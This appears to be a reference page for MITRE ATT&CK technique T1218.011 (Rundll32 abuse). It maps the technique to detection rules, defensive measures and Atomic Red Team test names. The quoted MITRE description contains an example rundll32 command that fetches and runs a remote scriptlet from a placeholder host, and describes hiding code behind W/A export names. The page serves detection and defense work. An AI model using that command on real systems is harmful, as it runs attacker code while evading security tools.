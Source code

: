 # T1218.011: Rundll32
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/011)**
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 6

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [File Analysis](https://d3fend.mitre.org/technique/d3f:FileAnalysis)
* [Process Spawn Analysis](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/technique/d3f:SystemCallAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/technique/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/technique/d3f:SystemCallFiltering)
* [Decoy File](https://d3fend.mitre.org/technique/d3f:DecoyFile)

## Technical Controls (Detection Rules)
### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 159

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[analytics](https://github.com/mitre-attack/car/blob/master/analytics)</code> folder:

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml)

### [Elastic Detection Rules](https://github.com/elastic/detection-rules)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 560

**ATT&CK-mapped resources for this (sub)technique:** 3

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/elastic/detection-rules/tree/main/rules)</code> folder:

* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Unusual Child Processes of RunDLL32](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_rundll32_no_arguments.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Suspicious Execution from a Mounted Device](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_suspicious_execution_from_mounted_device.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Unusual Network Connection via RunDLL32](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml)**

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 2360

**ATT&CK-mapped resources for this (sub)technique:** 31

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[PowerShell Rundll32 Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[SCR File Write Event](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [network_connection](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/network_connection/) / **[Rundll32 Internet Connection](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Equation Group DLL_U Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[EvilNum Golden Chickens Deployment via OCX Files](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Sofacy Trojan Loader Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[ZxShell Malware](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Bad Opsec Defaults Sacrificial Processes With Improper Arguments](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[F-Secure C3 Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[CobaltStrike Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Fireball Archer Install](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_crime_fireball.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[HTML Help Shell Spawn](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[NotPetya Ransomware Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Detection of PowerShell Execution via DLL](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RedMimicry Winnti Playbook Execute](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Rundll32 InstallScreenSaver Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_installscreensaver.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Process Dump via Comsvcs DLL](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Control Panel DLL Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Emotet RunDLL32 Process Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Code Execution via Pcwutl.dll](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Call by Ordinal](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Script in CommandLine](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Setupapi.dll Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RunDLL32 Spawning Explorer](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_spawn_explorer.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity Invoking Sys File](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Shell32 DLL Execution in Suspicious Directory](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Process Access via TrolleyExpress Exclusion](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [registry](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/) / [registry_set](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/registry_set/) / **[ScreenSaver Registry Key Set](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 1479

**ATT&CK-mapped resources for this (sub)technique:** 15

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [deprecated](https://github.com/splunk/security_content/tree/develop/detections/deprecated/) / **[Suspicious Rundll32 Rename](https://github.com/splunk/security_content/blob/develop/detections/deprecated/suspicious_rundll32_rename.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - advpack](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - setupapi](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - syssetup](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL Hunt](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_hunt.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL World Writable Directory](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 DNSQuery](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_dnsquery.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Process Creating Exe Dll Files](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_process_creating_exe_dll_files.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 with no Command Line Arguments with Network](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[RunDLL Loading DLL By Ordinal](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll_loading_dll_by_ordinal.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious IcedID Rundll32 Cmdline](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 dllregisterserver](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_dllregisterserver.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 PluginInit](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_plugininit.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 StartW](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_startw.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 no Command Line Arguments](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped tests:** 1262

**ATT&CK-mapped resources for this (sub)technique:** 12

The following unit tests mapped to this (sub)technique can be located in [the file here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.011/T1218.011.yaml):

* Rundll32 execute JavaScript Remote Payload With GetObject
* Rundll32 execute VBscript command
* Rundll32 advpack.dll Execution
* Rundll32 ieadvpack.dll Execution
* Rundll32 syssetup.dll Execution
* Rundll32 setupapi.dll Execution
* Execution of HTA and VBS Files using Rundll32 and URL.dll
* Launches an executable using Rundll32 and pcwutl.dll
* Execution of non-dll using rundll32.exe
* Rundll32 with Ordinal Value
* Rundll32 with Control_RunDLL
* Rundll32 with desk.cpl

### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped tests:** 70

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml): 1 unit tests

